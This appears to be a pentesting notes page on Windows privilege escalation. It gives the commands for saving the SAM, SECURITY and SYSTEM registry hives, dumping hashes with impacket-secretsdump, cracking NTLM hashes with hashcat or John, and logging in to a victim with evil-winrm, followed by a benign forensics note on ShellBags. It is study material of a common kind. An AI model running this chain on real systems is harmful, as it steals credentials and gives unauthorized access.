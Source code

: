 ```yaml
---
title: Windows PrivEsc with Registry Keys
description: The Windows Registry is a hierarchical database that stores low-level settings for Windows and for applications that opt to use the registry. Registry keys are container objects, which contain values and subkeys. These similar to folders.
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2023-07-15
draft: false
---
```


## Reveal Password from Registry Hives

A hive is a logical group of keys, subkeys, and values in the registry that has a set of supporting files loaded into memory when the operating system is started or a user logs in.

If we can access to registries and get registry hives, the password hashes can be dumped.  
Copy three hives (**SAM, SECURITY, SYSTEM**) to arbitrary direcotyr where we can access.

```powershell
# save: Saves a copy of specified subkeys, entries, and values of the registry in a specified file.
# HKLM: HKEY_LOCAL_MACHINE
reg save HKLM\sam c:\Users\<user>\Desktop\sam.save
reg save HKLM\security c:\Users\<user>\Desktop\security.save
reg save HKLM\system c:\Users\<user>\Desktop\system.save
```

After that, we can dump password hashes from hives.

```bash
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```

### Crack Hashes

After dumping hashes, we can crack them.  
First, we extract NTLM from the hash. For example, the dumped hash is below.

```bash
Administrator:500:abcdefghi...:zyxwvuts...:::
```

We need only the right string "zyxwvuts…", so extract it to a text file as below.

```bash
echo -n "zyxwvuts..." > hash.txt
```

Now crack it using **Hashcat** or **John The Ripper**.  
See more details **[here](/exploit/windows/dumping-windows-password-hashes/)**.

```bash
# Hashcat
# -m 1000: mode NTLM
hashcat -m 1000 hash.txt wordlist.txt

# John The Ripper
john --format=nt --wordlist=wordlist.txt hash.txt
```

If we get the password, we can use it for abusing the target machine.  
For example, we can use it to **WinRM** as below.

```bash
evil-winrm -i <victim_ip> -u <victim_username> -p <victim_password>
```

<br />

## ShellBags

A set of registry keys that store details about a viewed folder, such as its size, position, and icon.

### Location

```txt
c:\Users\<username>\AppData\Local\Microsoft\Windows\UsrClass.dat
``` 

If we cannot found AppData folder in Explorer, click "View" tab and check "Hidden Items".

### Access to Shellbag**

1. Search "regedit" on search bar and open "Registry Editor"

2. Go to "Computer\HKEY_CLASSES_ROOT\LocalSettings\Software\Microsoft\Windows\Shell\Bags"

### ShellBags Explorer

Extract ShellBags information.

1. Open "ShellBags Explorer"

2. Select "File" -> "Load offline hive"

3. Navigate to the UsrClass.dat and open the file

4. Find suspicious folder and file


